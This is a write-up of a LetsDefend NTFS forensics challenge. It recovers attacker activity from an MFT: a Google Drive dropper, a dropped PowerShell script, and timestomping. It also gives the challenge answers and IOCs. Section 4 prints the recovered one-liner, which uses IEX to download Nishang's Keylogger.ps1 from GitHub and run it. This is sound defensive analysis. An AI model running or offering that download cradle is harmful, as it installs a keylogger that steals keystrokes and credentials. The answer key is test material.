









# 🗄️ NTFS Forensics — LetsDefend Challenge

| | |
|---|---|
| **Platform** | [LetsDefend](https://app.letsdefend.io/challenge/ntfs-forensics) |
| **Category** | DFIR / Disk Forensics |
| **Difficulty** | Easy |
| **Status** | ✅ Solved (8/8) |

---

## 🎯 Scenario

> An alert was triggered on a critical jump server used by administrators for
> credential management. The server has been compromised. You are provided with only
> the **Master File Table (MFT)** of the endpoint. Uncover the actions taken by the
> threat actors.

- **File location:** `C:\Users\LetsDefend\Desktop\ChallengeFile\mft.zip`

---

## 🧰 Tools used

- **MFTECmd** (Eric Zimmerman) — parse `$MFT` to CSV, dump MFT entries
- **Timeline Explorer** (Eric Zimmerman) — browse and filter the parsed MFT

---

## 🔬 Analysis workflow

### 1. Parse the MFT
Extracting `mft.zip` yields the raw `$MFT` (104 MB), alongside the Eric Zimmerman
toolset available on the endpoint.



Parsing it to CSV:

```powershell
& 'MFTECmd.exe' -f 'C:\...\ChallengeFile\C\$MFT' --csv 'C:\Users\LetsDefend\Desktop\mftout' --csvf mft.csv
# FILE records found: 106,680
```



### 2. Find the downloaded file (Q1, Q2, Q3)
Files downloaded from the internet carry a **`Zone.Identifier`** Alternate Data
Stream containing the origin URL. Loading `mft.csv` in Timeline Explorer and
filtering the **`Zone Id Contents`** column on `http` returns only **two** files:

| File | Origin | Verdict |
|------|--------|---------|
| `scanner98.zip:Zone.Identifier` | Google Drive | 🚩 malicious |
| `MFTExplorer.zip:Zone.Identifier` | ericzimmerman.github.io | ✅ legitimate |

```
[ZoneTransfer]
ZoneId=3
ReferrerUrl=https://drive.google.com/
HostUrl=https://drive.usercontent.google.com/download?id=1hqL4dh5i7bzvfY-v_NmsMhCkJbZDEonO&export=download
```



Scrolling left reveals the owning file name — `scanner98.zip`:



The `Created0x10` timestamp of the ADS gives the download time: `2024-04-22 04:00:43`.



### 3. Find the dropped PowerShell script (Q4, Q5)
Filtering the **`Extension`** column on `.ps1` and ignoring the many system scripts
under `Windows\` reveals one anomaly in a user directory:

```
.\Users\LetsDefend\Downloads   →   x.ps1   (152 bytes, Entry 97933)
```

A single-letter script name in `Downloads` is highly suspicious.



Its size is **152 bytes**:



And its MFT entry number is **97933** (sequence 4), needed to dump the record:



### 4. Recover the script contents (Q6, Q7, Q8)
At 152 bytes the file is **resident** — its content is stored inside the MFT record
itself. Dumping entry 97933:

```powershell
& 'MFTECmd.exe' -f 'C:\...\C\$MFT' --de 97933
```

The `**** DATA ****` attribute shows `Resident: True` and the ASCII payload:

```powershell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Keylogger.ps1')"
```

The script pulls **Keylogger.ps1** from the **Nishang** offensive PowerShell
framework and executes it in memory with `IEX`.



### 5. Bonus — timestomping detected
The same dump exposes a timestamp mismatch:

| Attribute | Created On |
|-----------|------------|
| `$STANDARD_INFORMATION` | 2023-03-27 10:16:07 |
| `$FILE_NAME` | **2024-04-22 04:00:54** |

The attacker altered the `$STANDARD_INFORMATION` timestamps (the ones shown in
Explorer) but not `$FILE_NAME`, which retains the true creation time — a classic
**timestomping** artefact.

---

## ❓ Questions & Answers

| # | Question | Answer |
|---|----------|--------|
| 1 | Malicious downloaded file name | `scanner98.zip` |
| 2 | Source URL of the downloaded file | `https://drive.usercontent.google.com/download?id=1hqL4dh5i7bzvfY-v_NmsMhCkJbZDEonO&export=download` |
| 3 | Time of download | `2024-04-22 04:00:43` |
| 4 | Full path of the dropped PowerShell script | `C:\Users\LetsDefend\Downloads\x.ps1` |
| 5 | File size of the script (bytes) | `152` |
| 6 | URL the script reaches out to | `https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Keylogger.ps1` |
| 7 | MITRE sub-technique observed | `T1056.001` |
| 8 | PowerShell cmdlet used to execute the code | `IEX` |

---

## 📝 Summary / Lessons learned

- **The MFT alone tells the whole story.** No disk image or event logs were needed —
  filenames, paths, sizes, timestamps and even small file contents live in the MFT.
- **`Zone.Identifier` ADS is gold.** Every internet-downloaded file records its
  `HostUrl` and `ReferrerUrl` — an instant answer to "where did this come from?".
- **Resident files can be fully recovered.** Files small enough (here 152 bytes) are
  stored inside their MFT record, so the script's source code survived even without
  the file system data.
- **`$STANDARD_INFORMATION` vs `$FILE_NAME`** timestamp mismatches reveal
  **timestomping** (MITRE `T1070.006`).
- **Trusted platforms are abused:** Google Drive hosted the dropper, GitHub hosted
  the keylogger — both bypass basic reputation filtering.

### Indicators of Compromise (IOCs)

| Type | Value |
|------|-------|
| Dropper | `scanner98.zip` |
| Download URL | `https://drive.usercontent.google.com/download?id=1hqL4dh5i7bzvfY-v_NmsMhCkJbZDEonO&export=download` |
| Dropped script | `C:\Users\LetsDefend\Downloads\x.ps1` (152 bytes) |
| C2 / payload URL | `https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Keylogger.ps1` |
| Tooling | Nishang (Keylogger.ps1) |
| MITRE | `T1056.001` (Keylogging), `T1059.001` (PowerShell), `T1070.006` (Timestomp) |
